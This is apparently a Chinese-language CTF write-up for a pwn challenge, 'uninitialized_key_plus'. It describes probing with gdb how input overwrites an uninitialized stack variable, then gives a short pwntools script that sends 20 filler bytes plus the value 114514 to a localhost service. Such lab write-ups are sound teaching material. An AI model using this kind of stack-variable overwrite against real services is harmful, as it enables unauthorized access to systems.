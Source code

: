 # uninitialized key plus

## 文件分析

下载`uninitialized_key_plus`, 保护全开  
ghidra分析为64位程序

## 逆向

和上次一样，使得栈上变量key==114514即可  
使用gdb发送'111122223333444455556666'进行探测（共读入24B），
发现输入无意义字符后key上留下来的值是`'6666'`，故填充前面段，将6666设为114514即可

## EXPLOIT

```python
from pwn import *
sh = remote("localhost", 41675)
sh.sendline(b'0'*20 + p32(114514))
sh.sendline(b'asdfasdf')
sh.interactive()
```

Done.
